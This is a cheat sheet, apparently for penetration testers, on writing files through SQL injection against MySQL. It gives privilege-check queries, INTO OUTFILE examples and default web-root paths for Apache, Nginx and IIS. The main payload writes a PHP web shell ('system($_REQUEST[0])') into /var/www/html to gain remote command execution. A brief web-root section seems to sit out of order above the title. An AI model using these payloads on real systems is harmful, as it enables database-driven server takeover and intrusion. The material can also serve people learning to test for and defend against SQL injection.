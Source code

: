 ## Common Challenges and Solutions

### 1. Finding the Web Root

To write files that are accessible via the web server, we need to know where to put them. Here are our options:

- Read server configurations:
    - Apache: `/etc/apache2/apache2.conf`
    - Nginx: `/etc/nginx/nginx.conf`
    - IIS: `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`

# MySQL File Operations Through SQL Injection - Quick Reference

## Core Requirements for File Operations

|Requirement|Check Query|Success Indicator|Notes|
|---|---|---|---|
|FILE Privilege|`SELECT grantee, privilege_type FROM information_schema.user_privileges`|`FILE` in privileges list|Must be enabled for user|
|secure_file_priv|`SELECT variable_value FROM information_schema.global_variables WHERE variable_name="secure_file_priv"`|Empty value (`''`)|`NULL` blocks all operations|
|OS Permissions|Check MySQL user write access|File creation successful|MySQL service account needs rights|

## File Writing Operations

|Operation|Query Example|Purpose|Success Check|
|---|---|---|---|
|Test Write|`SELECT 'test' INTO OUTFILE '/tmp/test.txt'`|Verify permissions|File appears and readable|
|Basic Shell|`SELECT '<?php system($_REQUEST[0]); ?>' INTO OUTFILE '/var/www/html/shell.php'`|Command execution|Accessible via web browser|
|Clean Output|`UNION SELECT "","payload","","" INTO OUTFILE '/path'`|Avoid numeric artifacts|Clean file content|
|Base64 Write|`SELECT FROM_BASE64("b64_data") INTO OUTFILE '/path'`|Binary/complex files|File integrity matches|

## Common Web Roots

|Server|Default Path|Config Location|Alternative|
|---|---|---|---|
|Apache|`/var/www/html`|`/etc/apache2/apache2.conf`|`/usr/local/apache2/htdocs`|
|Nginx|`/usr/share/nginx/html`|`/etc/nginx/nginx.conf`|`/var/www/nginx-default`|
|IIS|`C:\inetpub\wwwroot`|`%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`|`D:\web`|
